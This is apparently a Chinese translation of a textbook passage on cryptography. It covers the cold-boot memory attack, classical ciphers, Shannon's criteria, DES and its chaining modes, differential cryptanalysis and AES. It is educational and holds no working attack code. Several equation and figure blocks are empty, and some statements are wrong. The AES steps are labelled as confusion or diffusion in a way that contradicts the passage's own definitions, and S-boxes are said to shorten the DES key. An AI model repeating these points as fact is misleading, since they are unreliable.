这些问题独立于算法本身的问题，但它们为密码分析员破解密码提供了途径。请记住，适用于攻击者的唯一规则就是没有规则。Sidebar 12-4 描述了一个密码分析中“凡是管用就行”的例子。

***

### 侧边栏 12-4 真正的冷数据

亚历克斯·哈尔德曼及其普林斯顿大学研究团队研究了一种获取加密密钥的新方法[HAL08a]。计算机内存芯片，即动态随机存取存储器模块（DRAM），在断电后会丢失内容。对于所有实际目的而言，数据值在断电时消失。

半导体在低温下的性能与其在室温下的行为不同。由于大多数半导体在狭窄的温度范围内使用（例如 -20°C 至 +40°C），这种影响并不重要。但密码分析是“不设限”的战斗。

然而，正如哈尔德曼团队所解释的，DRAM 数据丢失并非即时发生。数据会保留几秒钟，且丢失是渐进的，而非瞬间的。他们发现有报告称，一种半导体器件在液氮（约 -200°C）中维持一周时仍能保持数据；他们自行测试发现，在液氮中断电 60 分钟、置于计算机外部时，数据丢失率仅为 0.17%。

大多数攻击者不会随身携带液氮容器。哈尔德曼团队使用了一种现成的替代品：电子商店出售“压缩空气”气雾罐，一种用于吹除电子设备灰尘和杂质的喷雾。尽管名为“压缩空气”，但这些罐子装的是压缩气体，一种压缩氟氢碳制冷剂，液态时约为 -50°C，倒置罐子时液体会泄漏出来。哈尔德曼团队在实验中使用了此类产品，发现它们能保存内存内容数分钟。

那么，计算机芯片如何引向密码分析？加密和解密都需要密钥。如果应用程序为用户执行加密，它必须将密钥存储在某处，通常在内存中，以便随时送入加密或解密例程。特别有帮助的是，加密程序通常会预先计算部分工作，用内存空间（存储预计算表）换取每次加密或解密所减少的工作时间。这些预计算表的模式帮助团队在内存中定位此类表，使其比银行账号等更容易找到。因为哈尔德曼团队能保存内存芯片的内容，他们有足够时间在数据严重衰减前将其完整复制到另一种稳定介质上。一旦数据位于非易失性介质上，分析师就有充裕时间对内存进行详细取证分析，寻找显示密钥存储位置的线索。

诚然，这个例子展示了一种高度创造性（有人可能说怪异甚至病态）的获取敏感数据的方法。尽管如此，它阐释了我们在第 1 章最初提出的两点：第一，攻击者可以使用任何工具或技术；密码分析（或安全）中不存在“友好竞争”的概念。第二，动机很重要；高度有动机的攻击者有动力开发并使用高度复杂的攻击，可能获得丰厚回报。

***

这些背景信息已为你学习当今广泛使用的加密方案做好准备。使用这些方案相当容易，尽管算法的详细构造可能相当复杂。在学习这三种算法时，请记住密码分析员也在致力于破解这些加密。

## 密码学基元

密码学涉及两种基本技术：替换和置换。这些操作可按复杂模式应用。借助计算机，模式的复杂程度仅受限于人们愿在加密和解密过程上投入多少时间。

### 替换与置换

两大密码学基元是替换和置换。在**替换**中，一组比特被另一组比特取代。若加密作用于字母，每个字母可被另一个字母替换，很像某些报纸刊登的密码谜题。替换也可作用于字节或其他大小的数据块。替换涉及简单的表查找，因此可快速完成，硬件加密处理器可通过将替换表编码在处理器内存中来优化。

替换的一个弱点是其规律性。在基于字母的替换中，若 E 总是被 p 替换，密文 p 的频率将与明文 E 的频率一致，给分析员提供线索。因此，替换很少单独使用。有时会更换替换表，例如 E 有时被 p 替换，有时被 w 替换。这种多重替换的使用有助于平滑输出密文中明显的模式。^(1)

1. Sidebar 12-2 中提到的 Enigma 机器，是二战中德国人使用的一种替换密码设备。关于它如何以复杂但算法化（因此可逆）的方式随每个字母改变替换，参见 David Kahn 的描述[KAH96]。

#### 置换

**置换**涉及重新排列密文的顺序，以打破底层明文中任何重复的模式。一些报纸也会发布单词谜题，其中的字母已被打乱。解谜者会寻找常见的字母模式，例如 Q 后跟 U、E-D、I-N-G 以及词尾 S。如果单独使用置换，这些拼写模式有助于解开谜题。

许多加密算法同时涉及替换和置换；替换使密文输出的分布变得平滑，而置换则打破了后续明文单元明显的模式。

### 混淆与扩散

还有两个重要概念与执行加密所需的工作量有关。加密算法应从明文中获取信息并对其进行转换，使截获者无法轻易识别消息。截获者不应能通过更改明文中的一个字符来预测密文会发生什么。我们称这一特性为**混淆**。提供良好混淆的算法在明文/密钥对与密文之间具有复杂的函数关系。这样，截获者将需要很长时间来确定明文、密钥和密文之间的关系；因此，截获者破解密码将需要很长时间。替换实现了混淆。

密文还应将明文中的信息分散到整个密文中，以便明文中的变化影响密文的许多部分。这一原则称为**扩散**，即将单个明文字母的信息分布到整个输出中的特性。良好的扩散意味着截获者需要获取大部分密文才能推断出算法。置换实现了扩散。

### 一次性密码本

**一次性密码本**有时被认为是完美的密码。它是一种纯替换密码。其名称源于一种加密方法：将一大组不重复的密钥写在纸张上，粘合成一个密码本。例如，如果密钥长 20 个字符，而发送方必须传输一条长 300 个字符的消息，发送方就会撕下接下来的 15 页密钥。发送方将密钥字母逐个写在明文字母的上方，并使用预先约定的替换方式，将每个明文字母与其上方写的密钥值结合进行加密。然后发送方销毁已使用的密钥。

为了使加密生效，接收方需要一个与发送方完全相同的密码本。收到消息后，接收方取出适当数量的密钥，像使用长密钥的简单替换密码一样解密消息。本质上，该算法产生的效果等同于一个长度等于密码本中字符数的密钥。

一次性密码本方法有两个问题：发送方和接收方之间需要绝对的同步，以及需要无限数量的密钥。虽然生成大量随机密钥不是问题，但印刷、分发、存储和管理这些密钥却是问题。

#### 长随机数序列

在计算机上使用的一次性密码本的一个近似替代品是随机数生成器。事实上，计算机随机数并非真正随机；它们实际上形成一个周期非常长的序列（即它们会在很长一段时间后才重复序列）。在实践中，具有长周期的生成器可在有限的时间或明文量下被接受。

要使用随机数生成器，拥有 300 字符消息的发送方会向计算机请求接下来的 300 个随机数，并使用一个数字来加密明文消息的每个字符。

#### 维纳姆密码

**维纳姆密码**是由吉尔伯特·维纳姆为 AT&T 设计的一种一次性密码本。维纳姆密码能抵御大多数密码分析攻击。基本加密涉及一个任意长的非重复数字序列，该序列与明文结合。维纳姆的发明使用了一卷任意长的打孔纸带，送入电传打字机。纸带包含随机数字，与输入电传打字机的字符结合。随机数字序列不重复，且每卷纸带仅使用一次。只要密钥纸带不重复或不重用，这种密码就能免疫密码分析攻击，因为可用的密文不显示密钥的模式。该过程的模型如图 12-1 所示。


**图 12-1** 维纳姆密码

#### 书本密码

另一种所谓的“随机”数字来源是任何书籍、乐曲或其他可分析结构的对象。发送方和接收方都需要访问完全相同的对象。例如，可能基于电话簿的一次性密码本。发送方和接收方可能约定从第 35 页开始，使用每个七位电话号码的中间两位数字（`ddd-DDdd`），模 26，作为替换密码的密钥字母。他们使用一个已约定的表（维热纳尔表），其中包含所有 26 个字母。

任何书籍都可以提供密钥。密钥按顺序由文本的字母组成。这种加密类型是肯·福莱特的小说《通往丽贝卡的钥匙》的基础，在书中，达芙妮·杜·穆里埃著名的惊悚小说《丽贝卡》充当了二战间谍的密钥来源。如果发送方和接收方已知使用一本流行的书，如《通往丽贝卡的钥匙》、圣经或《计算机安全》，密码分析师尝试用书籍对抗密文会比寻找模式和使用复杂工具更容易。当然，分析师必须推断出正确的书籍。

我们要强调的是，这些一次性密码本和伪一次性密码本绝不能重复。如果有任何重复，截获者将得到两个密文流：一个用于一块明文，另一个用于不同的明文，但两者都用相同的密钥加密。截获者以一种密钥相互抵消的方式组合这两个密文，留下两个明文的组合。然后截获者可以进行其他分析，以揭示底层明文中的模式并给出一些可能的明文元素。最坏的情况是用户只是为新消息重新开始使用密码本，此时截获者可能能够确定如何分割明文并完整地解开两个明文。

### 统计分析

任何自然语言的文本都有模式。首先是字母本身的频率。字母 A、E、O 和 T 约占标准英语文本中所有字母使用量的 40%，加上 N 和 I 则占 50%。此外，某些字母对，如 EN、RE、ER 和 NT，以及三字母组，如 ENT、ION、AND 和 ING，出现的频率很高。^(2) 英语以外的字母语言有类似的结果。

2. 注意，确切频率因所考虑的文本而异：字典中的字母计数会略有不同，报纸、技术报告或《钦定版圣经》也是如此，因为每种情况下使用的词汇都来自有偏差的来源。

即使是非语言明文，也常常揭示分布上的不规则性：例如，机器语言反映了流行指令的操作码，程序源代码反映了语言的关键字和程序员对变量名的选择。

对密码分析师而言，这些频率分布很有帮助，因为它们反映了底层语言的某些不规则性，这些不规则性可能会在输出密文中表现出来。

### 什么造就了“安全”的加密算法？

#### 加密算法

加密算法种类繁多，包括许多超出本书讨论范围的技术。假设你有文本需要加密。如何为特定应用选择加密算法？要回答这个问题，请重新考虑我们迄今为止所学的关于加密的知识。我们研究了两大类算法：替换和置换。替换“隐藏”明文字母，而多重替换消散高字母频率，使得更难确定替换是如何进行的。相比之下，置换打乱文本，使得相邻字符分析失效。

对于我们考虑的每种加密类型，我们都描述了其优缺点。但有一个更广泛的问题：什么是“好”密码？*好*的含义取决于密码的预期用途。供野战军事人员使用的密码，其需求与在拥有大量计算机支持的安全设施中使用的密码不同。在本节中，我们将更仔细地研究密码的不同特征。

##### 香农关于“好”密码的特征

1949 年，克劳德·香农 [[SHA49]](#bib01.html#bib_565) 提出了若干特征来识别一个好的密码。

**1.** 所需的保密程度应决定加密和解密所适用的工作量。

原则 1 重申了第 1 章中的及时性原则，以及早先的观察：即使是简单的密码，也可能足以阻止偶然的拦截者，或在短时间内拖延任何拦截者。

**2.** 密钥集合和加密算法应避免复杂性。

这一原则意味着我们不应限制密钥的选择，也不应限制算法可作用的明文类型。例如，一种仅适用于 A 和 E 数量相等的明文的算法是无用的。类似地，要求选择密钥使得密钥字母值之和为质数，这将很难操作。此类限制会使加密的使用变得过度复杂。如果过程过于复杂，就不会被使用。此外，密钥必须被传输、存储和记忆，因此它必须简短（至少对于手工实现而言）。

**3.** 过程的实现应尽可能简单。

手工实现促成了原则 3：复杂的算法容易出错或被遗忘。随着数字计算机的发展和普及，那些对于手工实现过于复杂的算法变得可行了。尽管如此，复杂性问题依然重要。人们会避免使用其实现过程严重阻碍消息传输的加密算法，从而削弱安全性。而且复杂的算法更容易被错误地编程实现。

**4.** 加密中的错误不应传播并导致消息中后续信息的损坏。

原则 4 承认人类在使用加密算法时会犯错。过程早期的一个错误不应导致整个剩余密文出错。例如，在置换中丢失一个字母会打乱整个剩余的加密过程。除非接收方能确定字母丢失的位置，否则消息的其余部分将无法理解。相比之下，在表驱动替换中读错行或列仅影响一个字符——其余字符不受影响。

**5.** 加密后文本的大小不应大于原始消息的文本。


# 原则 5 背后的思想

大幅膨胀的密文不可能比明文携带更多信息，但它却给密码分析师提供了更多数据来推断模式。此外，较长的密文意味着需要更多的存储空间和更多的通信时间。

这些原则是在数字计算机普及之前制定的，尽管香农了解计算机及其代表的计算能力。因此，他对手工实现表达的一些担忧，并不真正是基于计算机实现的限制。例如，密码在计算机上的实现不必简单，只要实现的时间复杂度是可容忍的即可。尽管如此，这些原则所暗示的基本原理在很大程度上仍然有效。

# “可信”加密系统的属性

商业用户在选择加密算法时，有若干要求必须得到满足。因此，当我们说加密是“商业级”的，或“可信的”时，我们意味着它满足以下约束：

*   **它基于可靠的数学原理**。优秀的加密算法不是凭空发明的；它们源自可靠的原则。
*   **它已由权威专家分析并被认定为可靠**。即使是最优秀的加密专家也只能想出有限的可能攻击，而开发者可能过于确信自己算法的强度。因此，由持批判态度的外部专家进行审查至关重要。
*   **它经受住了“时间的考验”。** 随着新算法变得流行，人们会继续审查其数学基础及其在这些基础上的构建方式。虽然长期的成功使用和分析不能保证算法一定好，但许多算法的缺陷通常在发布后不久就会被发现。

在商业界有三种流行的算法：`DES`（数据加密标准）、`RSA`（Rivest–Shamir–Adelman，以发明者命名）和 `AES`（高级加密标准）。这三种算法（以及其他算法）均符合我们的商业级加密标准。在接下来的章节中，我们将介绍 `DES`、`AES` 和 `RSA`，这三种算法在第 2 章中已有概述。在本章中，我们将更深入地探讨其内部结构。我们不会详述这些算法的所有细节，因为引用的定义文档已经做得很好，并详细阐述了设计选择和基本原理，供有兴趣的读者参考。

# 12.2 对称加密算法

几个世纪以来，国家军事和外交机构一直使用密码学来保护其机密。事实上，密码学的历史（大卫·卡恩的著作 [[KAH96]](#bib01.html#bib_308) 讲述得非常精彩，如果你能找到其缩略版 [[KAH67]](#bib01.html#bib_306) 也不错）几乎完全涉及政府保护机密免受其他政府窃取。

随着数字计算机普及，使用这些计算机的公司发现它们需要保护数据，防止竞争对手窃取，并确保员工隐私。随着网络变得更普及，它们还需要防止因传输故障导致的问题。出于机密性和完整性的考虑，企业甚至一些个人开始寻找加密解决方案。美国商务部通过其国家标准局，认识到缺乏可靠的高质量加密会阻碍商业发展，因此采取措施为工业界提供可靠的加密。

## DES

数据加密标准源于 `IBM` 开发的一个项目，当时 `IBM` 可能是私营行业最大的大型机供应商。`IBM` 认为其许多客户会发现加密很有用。

### 背景与历史

#### DES 算法概述

##### 历史背景

20 世纪 70 年代初，美国国家标准局（NBS），后更名为国家标准与技术研究院（NIST），意识到公众需要一种安全的加密技术来保护敏感信息。历史上，美国国防部和国务院一直对加密系统有持续的兴趣，用于保护军事和外交机密；人们认为这些部门拥有最顶尖的密码学专业知识。然而，正是由于它们加密信息的敏感性质，这些部门无法发布任何工作成果。因此，开发一种更公开的加密技术的责任被委托给了 NBS，即美国商务部下属的一个机构。

与此同时，几家私营供应商开发了个人或公司可以购买的机械或软件加密设备，以保护其敏感通信。这种加密技术商业化扩散的困难在于交换：使用不同设备的两个用户无法交换加密信息。此外，没有独立机构能够对这些设备进行广泛测试，以验证它们是否正确实现了各自的算法，甚至无法验证这些算法是否值得使用。

很快显而易见，加密技术已准备好接受评估和标准化，以促进无关各方交换加密信息的能力，并提供一种可经过严格测试并公开认证的单一加密系统。因此，1972 年 NBS 征集公开加密算法的提案。征集书规定了此类算法的理想标准：

- 能够提供高级别的安全性
- 规范明确且易于理解
- 可公开发布，使安全性不依赖于算法的保密性
- 面向所有用户开放
- 可适应多种应用场景
- 在电子设备中实现成本低廉
- 使用高效
- 可被验证
- 可出口

NBS 设想将加密作为一个独立的硬件设备提供。为了使算法公开，NBS 希望公开算法本身，将系统的安全性建立在密钥之上（密钥将由用户控制）。

鲜有组织响应号召，因此 NBS 于 1974 年 8 月发布了第二次公告。最有希望的提交方案是 IBM 研发多年的 `Lucifer` 算法。该思想早已发表，因此基本算法早已公开，并经受住了审查和验证。尽管流程冗长，但算法直观明了，是计算机程序中迭代实现的天然候选者。此外，与某些使用 500 位或 1000 位甚至更长二进制数进行算术运算的算法不同（远超大多数机器指令可作为单一数量处理的范围），`Lucifer` 仅对相对较小的数据块使用简单的逻辑操作。因此，该算法可以在常规计算机上以硬件或软件形式相当高效地实现。

IBM 为 NBS 开发的数据加密算法基于 `Lucifer`，被称为**数据加密标准**（**DES**），尽管其正式名称在美国是 `DEA`（数据加密算法），在其他国家是 `DEA1`（数据加密算法-1）。随后，NBS 通过其国家安全局（NSA）请求国防部分析该加密算法的强度，IBM 对其进行了轻微修改。最后，NBS 发布算法供公众审查和讨论。

DES 于 1976 年 11 月正式被采纳为美国联邦标准 [[NBS77]](#bib01.html#bib_430)，经 NBS 授权可用于所有公共和私营部门的非机密通信。最终，DES 被国际标准化组织接受为国际标准。

#### DES 算法

该算法利用香农确定的两种隐藏信息的技术：混淆和扩散。也就是说，算法实现了两件事：确保输出位与输入位没有明显关系，以及将一个明文位的影响扩散到密文中的其他位。替换实现混淆，置换实现扩散。一般来说，明文会受到一系列替换后跟置换循环的影响。

我们在此不详述完整的 DES 算法，因为它已在原始定义文档 [[NBS77]](#bib01.html#bib_430) 中有完整记录。不过，我们希望您了解算法的基本结构，以便领会其密码学强度的来源。

DES 的基础是两种不同的密码，交替应用。香农指出，两种薄弱但互补的密码可以通过组合应用（称为两个密码的“乘积”）交替使用，在一种称为**乘积密码**的结构中变得更安全。

初始化后，DES 算法对数据块进行操作。它将数据块对半分开，独立打乱每一半，将密钥与其中一半结合，并交换两半。此过程重复 16 次。这是一种迭代算法，仅使用查表和简单的位操作。尽管算法的位级操作复杂，但算法本身可以相当高效地实现。数据操作针对 32 到 64 位的位串，仅使用查表、逻辑操作（`AND`、`OR`、异或 `XOR`）以及位移位和旋转，使这些过程成为具有 32 位或 64 位字长计算机的理想实现目标。

DES 的输入被分成 64 位的块。64 个数据位通过所谓的初始置换进行置换。数据位由一个 64 位密钥转换（其中仅使用 56 位）。通过丢弃第 8、16、24、... 64 位（最高有效位称为第“1”位），密钥从 64 位减少到 56 位。被忽略的位被假定为不携带密钥信息的奇偶校验位。

接下来开始称为**循环**的一系列操作。64 个置换后的数据位被分成左半部分和右半部分，各 32 位。要将 32 位的右半部分与 64 位密钥结合，需要两项更改。首先，算法通过重复特定位将 32 位半块扩展为 48 位，同时根据称为 S 盒的表仅选择特定位，将 56 位密钥减少为 48 位。这最后两个操作称为**扩展置换**和**置换选择**。

密钥向左移动若干位并进行置换。密钥与右半部分结合，然后与左半部分结合。这些结合的结果成为新的右半部分；旧的右半部分成为新的左半部分。构成一个循环的这一系列活动如图 12-2 所示。循环重复 16 次。最后一个循环之后是最终置换，它是初始置换的逆操作。


**图 12-2** DES 中的一个循环

这些循环针对一个 64 位数据块重复 16 次。同一过程针对每个明文数据块单独重复。

#### 完整的 DES

现在我们可以将所有部分组合在一起，如图 12-3 所示。首先，密钥被减少到 56 位。然后，一个 64 位数据块通过初始置换进行置换。随后是 16 个循环，在每个循环中密钥被移位和置换，数据块的一半通过替换和置换函数进行转换，并将结果与数据块的另一半结合。最后一个循环之后，数据块通过最终置换进行置换。


**图 12-3** 完整的 DES

#### DES 解密

相同的 DES 算法既用于加密也用于解密。之所以会有这个结果，是因为循环 `j` 以下列方式从循环 (`j-1`) 导出：

```

```

其中 ⊕ 为异或操作，`f` 为扩展-移位-替换-置换循环中计算的函数。这两个方程表明每个循环的结果仅取决于前一个循环。

通过用 `R[j-1]` 和 `L[j-1]` 来重写这些方程，我们得到

```

```

和

```

```

将 (3) 代入 (4) 得到

```

```

方程 (3) 和 (5) 表明，这些相同的值可以从后续循环的结果中获得。这一特性使 DES 成为一个可逆过程；我们可以加密一个字符串，也可以解密结果以再次得到明文。

使用 DES 时，相同的函数 `f` 既可正向用于加密，也可反向用于解密。唯一的变化是解密时必须按相反顺序取密钥（`k[16]`、`k[15]`、...、`k[1]`）。使用同一个算法进行加密或解密，对于 DES 的硬件或软件实现来说非常方便。

### 链接模式

您可能已经注意到上一节描述中的一个弱点。DES 对每个 64 位块使用相同的过程。这意味着用相同密钥加密的任何相同数据块都将产生相同的输出。当然，您可能会说，为了使解密成为可能，该过程必须是规则且一致的，这当然是正确的。

现在以攻击者的思维来思考。一家银行使用 DES 加密网络数据流，其中包含将资金从一个账户转移到另一个账户的指令。银行选择一个密钥使用一段时间，例如一天，因为更换密钥很麻烦。为使论证简单，假设金额和账号均恰好为 64 位长，且恰好出现在转账消息的 64 位边界上。（无论字段的长度和位置如何，类似的论证都适用。）在图 12-4 中，我们描绘了这些消息的一般形式。该图还展示了四个示例，分别用于转账：(1) 从 Annie 到 Brian 的 $100，(2) 从 Carole 到 Drew 的 $500，(3) 从 Evin 到我们的恶意代理人 Zelda 的 $0.01，以及 (4) 从 Feng 到 Zelda 的相同金额。（注：这四个示例图中的加密值均为�构，仅为解释而创建；未应用真实的加密算法。）

```

```

**图 12-4** 转账消息

因为这些是网络通信，Zelda 可以以密文形式看到它们。虽然她无法解读内容，但可以寻找相似之处。假设她知道在哪里查找不同的字段。她将看到两条具有相同加密目标账号的消息，并推断它们很可能是转给她账户的两笔转账。利用该知识，她可以创建新消息，如图 12-5 所示，将资金从 Annie 和 Carole 的账户转到她的账户。

```

```

**图 12-5** 伪造的转账消息

Zelda 在从未访问底层明文的情况下，伪造了两条可能通过验证的加密消息。（她仍需做一些额外工作来掩盖她重用了之前的交易编号。）此处描述的问题之所以发生，是因为每个明文块独立于所有其他块进行加密，因此攻击者可以在不被检测到的情况下重新排序和替换块。

解决此问题的方法称为**链接模式**。如果每个块的加密不仅取决于其独特内容的直接密文，还取决于之前的内容，则链中每个块的顺序和位置就是固定的。这一变化将防止 Zelda 重用之前加密的块。

在图 12-6 中，您可以看到链接模式的效果。在上一张图中，Annie 的账号加密了两次，结果均为 w2z%pr。但在本图中，Annie 的账号首先通过异或 (⊕) 函数与日期块的加密结果结合，产生结果 C4UI6H。然后对 C4UI6H 进行加密，产生结果 bl3tfr。对比图的顶部和底部，您可以看到第一个字段（日期）在两半中加密结果相同，但接下来的字段不同，因此所有后续块都受此差异影响。每个块的加密值馈送到下一个块的明文中，因此每个加密块都依赖于所有前面块的值。因此，攻击者无法在不破坏这一加密链的情况下重新排序或替换加密块。如果我们展示了原始图中最后两行的结果，您会看到那两个 Zelda 块会不同，因为每个块都依赖于不同的前序数据。

```

```

**图 12-6** 链式加密

#### 初始化向量

您可能已经发现了链接示例中的一个最终困难。虽然链上的数据块各不相同，但第一个块（日期）没有依赖的先前上下文，因此它将始终加密为相同的值。解决这一困难的方法是对链接方法进行轻微扩展。

要开始加密数据流，首先创建一个包含任意值的额外块。确切的值无关紧要，只要它每次加密都发生变化即可；随机数生成器很有用。然后，如图 12-7 所示，您应用链式加密，从第一个块（随机数）开始，并像前面的示例一样链接后续块。通过这种方式，第一个真实数据块（实际为第二个加密块）每次都不同，因为随机初始化向量不同。

```

```

**图 12-7** 带初始化向量的链式加密

这两种链接技术同样适用于大多数对称密码。

### 关于 DES 安全性的问题

自首次公布以来，关于 DES 提供的安全性一直存在争议。尽管大部分争议见诸公开文献，但 DES 的某些特性既未被设计者透露，也未被外部分析师推断出来。

#### 算法设计

最初，人们对基本算法本身表示担忧。在算法开发期间，国家安全局 (NSA) 指出算法设计的关键要素属于“敏感”信息，不会公开。这些要素包括 S 盒、P 盒和密钥变换背后的基本原理。S 盒替换有许多可能性，但 DES 选择了一组特定的替换。

关于设计保密性出现了两个问题。第一个涉及担心某些“陷门”被植入 DES 算法中，从而为解密任何 DES 加密消息提供了一种隐蔽、简便的手段。例如，这种陷门将赋予 NSA 检查私人通信的能力。

在国会调查后（其结果属于机密），一份非机密摘要为 NSA 在 DES 设计中不存在任何不当行为做了澄清。（关于 DES 设计的很好讨论，请参阅 [SMI88a]。）

第二个问题涉及密码分析师可能发现（或或许已经发现）设计缺陷的可能性，这将使拦截者获得访问私人通信的能力。

贝尔实验室[MOR77]和 Lexan 公司[LEX76]都对 S 盒的**运行**（而非设计）进行了审查。这两项分析均未发现任何损害 S 盒正常功能的弱点。DES 算法已被广泛研究，迄今为止，尚未公开发现严重缺陷。

针对批评意见，NSA 公布了关于 S 盒选择的某些信息（[KON81, BRA77]）。

*   没有任何 S 盒是其输入的线性或仿射函数；即四个输出位不能表示为六个输入位的线性方程组。
*   改变 S 盒输入中的一位会导致至少两个输出位发生变化；即 S 盒能将其信息很好地扩散到输出中。
*   S 盒的选择旨在当任意单个输入位保持恒定时，将输出中 1 和 0 的数量差异最小化；即将单个位固定为 0 或 1 并改变其周围的位，不应导致输出中出现不成比例的大量 0 或 1。

#### 迭代次数

许多分析师怀疑 16 次迭代是否足够。由于每次迭代都将明文的信息扩散到密文中，因此不清楚 16 个周期是否能充分扩散信息。例如，仅经过一个周期，单个密文位仅受少数明文位的影响。随着周期增加，扩散程度变大，因此理想情况下，没有任何一个密文位依赖于明文位的任何子集。

作为 DES 算法认证过程的一部分，NBS 和 IBM 对 DES 及其 IBM 前身 Lucifer 进行了实验[KON81]。这些实验表明，8 次迭代足以消除任何观察到的依赖关系。因此，DES 的 16 次迭代肯定是足够的。

#### 差分密码分析

1990 年，Eli Biham 和 Adi Shamir[BIH90, BIH91, and BIH93] 宣布了一种他们称为**差分密码分析**的技术。该技术适用于使用替换和置换的加密算法。这种强大的技术是第一种对这一广泛类型的算法产生显著效果的技术。

该技术使用经过精心挑选且具有微妙差异的明文对，并研究这些差异对生成的密文的影响。如果特定的输入位组合被同时修改，特定的中间位也很有可能以特定方式发生变化。该技术查看一对输入的异或（XOR）；在输入相同的任何位上，异或结果为 0，在输入不同的位上，结果为 1。

完整的分析相当复杂，但我们在此提供一个概要。S 盒将六位转换为四位。如果 S 盒是完美均匀的，人们会期望所有 4 位输出等概率出现。然而，正如 Biham 和 Shamir 所展示的，某些相似文本比其他文本更有可能产生相似的输出。例如，在十六进制表示法中，检查所有具有 `35` 异或模式的 6 位字符串对（即形式为 `ddsdsd` 的字符串，其中 `d` 表示两个字符串之间该位值不同，`s` 表示该位值相同）对于 S 盒 `S[1]`，研究人员发现这些对具有 `dsss` 输出模式 14 次，`ddds` 14 次，而所有其他模式的频率在 0 到 8 之间。这表明形式为 `ddsdsd` 的输入有 14/64 的概率产生形式为 `dsss` 的输出，有 14/64 的概率产生 `ddds`；每种结果接近 1/4，这将延续到下一轮。Biham 和 Shamir 将这些可识别的效应中的每一个称为一个“特征”；然后他们通过串联特征来扩展结果。该攻击使他们能够推断密钥中特定位置的值。如果 `k` 位密钥中的 `m` 位可以被找到，则剩余的 (`k-m`) 位可以通过穷举搜索所有 `2^((k–m))` 个可能的密钥来找到；如果 `m` 足够大，`2^((k–m))` 次穷举搜索就是可行的。


在 [BIH90] 中，作者展示了他们利用差分密码分析产生的许多结果的结论；他们在后续论文中描述了这些结果的细节。对 DES 的 IBM 设计前身 Lucifer 的攻击仅需 30 个密文对即可成功。FEAL 是一种类似于 DES 的算法，可使用任意轮数；`n` 轮版本称为 FEAL-`n`。FEAL-4 可用 20 个选定明文项破解 [MUR90]，FEAL-8 [MIY89] 可用 10,000 对破解 [GIL90]；而对于 `n`≤31 的 FEAL-`n`，差分密码分析比全面穷举搜索更快 [BIH91]。简而言之，FEAL 易受差分密码分析攻击。

关于 DES 的结果令人印象深刻。将 DES 缩短至少于其正常的 16 轮，允许从选定密文中确定密钥，所需搜索次数*少于* `2⁵⁶`（实际上，期望值为 `2⁵⁵`）次。例如，15 轮仅需 `2⁵²` 次测试（这仍然是一个很大的数字）；10 轮测试次数降至 `2³⁵`，6 轮仅需 `2⁸` 次测试。*然而*，对于完整的 16 轮，该技术需要 `2⁵⁸` 次测试，即比穷举搜索所需的工作量*多* `2² = 4` 倍。

最后，作者表明，如果随机选择 S 盒值，DES 很容易被破解。事实上，即使仅更改一个 S 盒中的一个条目，DES 也会变得容易破解。人们可能会得出结论：S 盒的设计和轮数的选择是最优的。

事实上，确实如此。IBM 的 Don Coppersmith 是 Lucifer 和 DES 原始设计团队成员之一，他承认 [COP92]，在 1974 年设计 DES 时，设计团队就已知晓差分密码分析技术。团队构建 S 盒和置换的方式正是为了抵御这一攻击路径。差分密码分析的工作表明，DES 的基础确实是坚实的，而 NSA 未加解释的设计变更仅增强了它。

#### AES

由于对 DES 固定密钥长度的担忧，以及计算能力不断增强而 DES 这一固定目标保持不变，安全分析师开始寻找 DES 的替代品。

##### AES 竞赛

1997 年 1 月，NIST 号召密码学家开发一种新的加密系统。与从中选出 DES 的候选征集类似，NIST 施加了几项重要限制。算法必须是非机密且公开披露的，并且为了促进企业广泛使用，NIST 规定该算法必须在全球范围内免版税使用。DES 的替代品还必须是一种对称分组密码，能够对至少 128 位的分组进行操作。最后，为了克服 DES 的密钥长度限制，NIST 要求新算法能够使用 128、192 和 256 位长的密钥。

###### AES 选择与 Rijndael 算法

1998 年 8 月，从提交的算法中选出了十五个；1999 年 8 月，候选算法缩减至五个决赛入围者。这五个算法随后经历了广泛的公开和私下审查。最终选择不仅基于安全性，还基于运行成本或效率以及软件实现的便捷性。NIST 描述未被选中的四个算法也具备足够的 AES 安全性——在五个算法中均未发现密码学缺陷。因此，选择是基于效率和实现特性。获胜算法由两位荷兰密码学家提交，名为 **Rijndael**（发音为 RINE dahl）；该算法名称源自创建者 Vincent Rijmen 和 Joan Daemen 的名字。

该算法基于有限域 `GF(2⁸)` 上的运算，但大多数加密操作可通过查表完成，从而简化了 AES 的实现。

该算法分别针对 128 位、192 位或 256 位密钥包含 10、12 或 14 个周期。每个周期（在算法中称为一“轮”）包含四个步骤。

* **字节替换**。此步骤使用一个替换表，对 128 位块的每个字节进行替换。这是一个直接的扩散操作。

* **行移位**。特定位被移动到其他位置。这是一个直接的混淆操作。

* **列混淆**。此步骤涉及左移位并将位与自身进行异或。这些操作同时实现了混淆和扩散。

* **加轮密钥**。此处，该轮特有的部分密钥与轮运算结果进行异或。此操作提供混淆并融入密钥。

每一轮同时执行混淆和扩散，并将密钥融合进结果中。AES 的结构如图 12-8 所示。


**图 12-8** AES 结构

####### Rijndael 的强度

Rijndael 算法相对较新，但从 1997 年作为 AES 候选算法提交到 2001 年被选中期间，它经受了政府和独立密码学家的广泛密码分析。其荷兰发明者与 NSA 或美国政府任何其他部门无关，因此不存在政府以某种方式削弱算法或添加后门的嫌疑。尽管一个周期的步骤描述简单，看似是对位的随机变换，但这些变换有着可靠的数学渊源。

当 Rijndael 的前身 DES 被采用时，迅速出现了两个问题：

1.  它有多强，特别是有没有后门？

2.  多久之后加密代码会被常规破解？

经过约 40 年的使用，关于 DES 弱点（无论是否故意）和后门的怀疑基本已被消除。分析师不仅未发现任何重大缺陷，本章前面所述的研究实际上表明，看似微不足道的修改都会削弱算法强度——即该算法已是最优。关于 DES 能持续多久的第二个问题长期无答案，但随后在 1997 和 1998 年的两次实验中迅速得到了回答，DES 在数天内被破解。因此，在 DES 发布 20 多年后，专用单个处理器的算力和大规模并行搜索终于超越了固定的 DES 密钥长度。

我们必须对 AES 提出相同的问题：它有缺陷吗？还能保持安全多久？我们目前无法回答缺陷问题，只能说在两年的评审期内，密码分析师团队仔细研究了 Rijndael 的设计，未发现任何问题。此外，自 2001 年 AES 采用以来，对其安全性的唯一严峻挑战都是高度专业化和理论性的。

